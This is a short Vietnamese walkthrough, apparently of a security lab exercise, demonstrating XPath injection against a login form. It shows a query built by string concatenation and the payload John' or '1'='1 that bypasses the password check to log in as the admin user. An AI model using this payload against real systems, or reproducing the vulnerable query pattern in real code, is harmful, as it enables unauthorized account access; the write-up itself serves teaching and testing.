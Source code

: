 - Ban đầu họ cho một bảng user như dưới. Mục tiêu của chúng ta là đăng nhập vào admin `John`:

![1](img/52/Screenshot%20from%202023-01-31%2016-40-52.png)

- Vì đây là xác thực theo XPath nên ta có thể hiểu cú pháp như sau:

```
String xpathQuery = "//user[name/text()='" + request.get("username") + "' And password/text()='" + request.get("password") + "']";
```

- Thử với payload:

```
username: John' or '1'='1
password: abcd
```
- Thì bên server sẽ xử lý như sau (luôn đúng):

```
String xpathQuery = "//user[name/text()='John' or '1'='1 ' And password/text()='abcd']";
```

- Result:

![1](img/52/Screenshot%20from%202023-01-31%2016-42-23.png)
